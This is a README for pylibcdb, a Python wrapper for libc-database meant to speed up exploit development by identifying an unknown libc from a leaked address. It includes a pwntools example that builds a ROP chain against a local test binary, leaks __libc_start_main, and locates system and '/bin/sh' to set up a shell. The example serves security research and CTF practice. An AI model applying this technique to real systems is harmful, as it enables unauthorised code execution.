 # pylibcdb

pylibcdb is a python>=3.7 [libc_database](https://github.com/niklasb/libc-database) wrapper, its purpose is to improve exploit development tasks like ASLR bypass with an unknown libc.

With time i'd like to add more features and automated useful functions, for now this is the basic version.

### Requirements

There aren't python dependeces for now, but you need to install [libc_database](https://github.com/niklasb/libc-database) locally.

### Context

- x86_64 Linux

### Installation
```bash
git clone https://github.com/Neetx/pylibcdb
cd pylibcdb
python setup.py install
```

### Basic usage

```python
from pylibcdb.LibcDB import LibcDB

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address("0x7fe7ac9a7fc0", symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
print(libc_name)
libc_path = libcdb.download_by_name(libc_name)
print(libc_path)
```

```
libc6_2.31-0ubuntu9.1_amd64
/path/to/your/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/libc-2.31.so
```
This .so can be easily analyzed (or used with [pwntools](https://github.com/Gallopsled/pwntools) ELF()) to discovery function addresses and build a ROP chain.
In this way there's no need to launch "find" and "download" scripts manually with several copy-paste.

#### A more detailed example

```python
from pwn import *
from pylibcdb.LibcDB import LibcDB

p = process("./vuln_test")
elf = ELF("./vuln_test")
rop = ROP(elf)

puts = elf.plt['puts']
main = elf.symbol['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

base_payload = "A"*32 + "B"*8    #this must change for every target binary
rop = base_payload.encode() + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(main)

p.sendline(rop)   #this sending and receiving changes for every target binary
received = p.recvline().strip()
leak = u64(received.ljust(8, "\x00".encode()))

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address(leak, symbol="__libc_start_main") #leaked __libc_start_main is default for symbol
libc_path = libcdb.download_by_name(libc_name)

libc = ELF(libc_path)
libc.address = leak - libc.sym["__libc_start_main"]

binsh = next(libc.search("/bin/sh".encode()))
system = libc.sym["system"]
```

At this point we have all we need to craft a final ROP chain and get shell. This is a workflow example in facts things may (sure) change for each scenario, but the idea is to not let target binary crashes and not stop the exploit execution to launch libc-database scripts manually.

Later I will release a complete and working example with a vulnerable binary.

#### Scripts
Without this library you have to launch:
```
./find __libc_start_main LEAKED_ADDRESS
./download LIBC_NAME_OUTPUT
```
And then you have to copy the shared object to your working directory or to use its absolute path.

#### Multiple output
Often there are multiple libc candidates, specially using only one leaked address (for now it works only in this way).
Now you can choose which libc to get and use, you should make a choice second your context and information you have

Example:
```
[*] Leaked libc address,  __libc_start_main: 0x7f9342728b10
Select version:
1 - ubuntu-old-eglibc (libc6_2.11.1-0ubuntu7.21_i386)
2 - ubuntu-glibc (libc6_2.27-3ubuntu1.3_amd64)
3 - ubuntu-old-eglibc (libc6-i386_2.11.1-0ubuntu7.21_amd64)
4 - ubuntu-old-glibc (libc6-x32_2.21-0ubuntu4.3_amd64)
5 - ubuntu-old-glibc (libc6-x32_2.21-0ubuntu4.3_i386)
>2
NAME OF DISCOVERED LIBC: libc6_2.27-3ubuntu1.3_amd64
PATH OF DISCOVERED LIBC: /home/neetx/software/libc-database/libs/libc6_2.27-3ubuntu1.3_amd64/libc-2.27.so
```

### Contacts

[neetx](neetx@protonmail.com)

### License

Copyright 2020 Neetx

This file is part of pylibcdb.

pylibcdb is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

pylibcdb is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with pylibcdb.  If not, see <http://www.gnu.org/licenses/>.